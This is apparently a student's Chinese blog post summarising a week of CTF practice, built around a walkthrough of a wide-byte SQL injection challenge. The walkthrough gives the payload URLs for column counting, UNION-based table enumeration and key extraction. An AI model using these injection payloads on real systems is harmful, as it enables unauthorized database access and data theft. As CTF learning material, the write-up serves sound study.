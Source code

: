 ```yaml
---
layout: post
title: "第六周总结"
date:  2017-04-04 14:58:44
description: "第六周总结"
tag: 总结
---
```



# 第六周总结
## 本周学习内容
1. 本打算先看《web深度剖析》的，但是看了一上午书发现只看书并没有什么用，还是得实践的。。。然后开始了南邮ctf之旅，做了大约12个web题，有些是自己试出来的，还有一些想不出来看的百度的wp。还做了一些学校ctf上的几个web题，变量覆盖那个题最后没拿到flag就是因为最后一步的base混合解码（抓紧学python）
2. 所做的除注入题以外的web题的最深感悟：拿到题先看源代码，源代码找不到什么思路就用burpsuite抓点东西看，大部分题都是这个套路。嗯。
3.终于开始看python，安装python，跟着网站学了一些基础的操作，试着写了一些简单的例子。。。
## 注入题解1：
网址为
```
http://103.238.227.13:10083/
```
首先，什么是宽字节
GB2312、GBK、GB18030、BIG5、Shift_JIS等这些都是常说的宽字节，实际上只有两字节

```
http://103.238.227.13:10083/?id=-1%d5' 
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''-1誠'' LIMIT 1' at line 1
```
宽字节注入

```
http://103.238.227.13:10083/?id=-1%d5%27 order by 1 
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 1' at line 1
```
```
http://103.238.227.13:10083/?id=-1%d5%27 order by 2
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 1' at line 1
```
order by 判断有多少列
```
http://103.238.227.13:10083/?id=-1%d5%27 order by 3
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 1' at line 1
```
1和2都可以，但是到3的时候不可以，说明数据库有两列
```
http://103.238.227.13:10083/?id=-1%d5%27 union select database(),null --+  
```
查询数据库正常，返回sql5
```
http://103.238.227.13:10083/?id=-1%d5%27 union select 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() --+
```
查询所有字段名
```
http://103.238.227.13:10083/?id=-1%d5%27 union select 1,group_concat(id,0x7e,string) FROM .key --+
```
查询字段内容
题目要求查询id=1的string字段，于是string内容为
```
54f3320dc261f313ba712eb3f13a1f6d
```

